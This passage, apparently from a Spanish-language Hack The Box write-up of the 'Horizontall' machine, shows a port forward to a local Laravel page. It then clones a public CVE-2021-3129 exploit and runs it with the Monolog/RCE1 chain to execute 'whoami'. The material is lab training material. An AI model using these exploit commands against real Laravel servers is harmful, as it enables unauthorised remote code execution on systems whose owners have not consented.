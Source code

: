 Con esto ya estaría listo el port forwarding, y lo verificamos visitando el [localhost](http://localhost) en el puerto indicado.

![Hackforce-2022-12-12-03-05-39.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-03-05-39.png)

Listo ya podemos visualizar la pagina de laravel en nuestra maquina.

Buscamos en github un exploit para esa version de laravel y nos clonamos el repositorio en exploits.

```bash
git clone https://github.com/nth347/CVE-2021-3129_exploit.git
```

Nos metemos al directorio y ejecutamos el script de python.

```bash
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami
```

![Hackforce-2022-12-12-03-32-43.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-03-32-43.png)
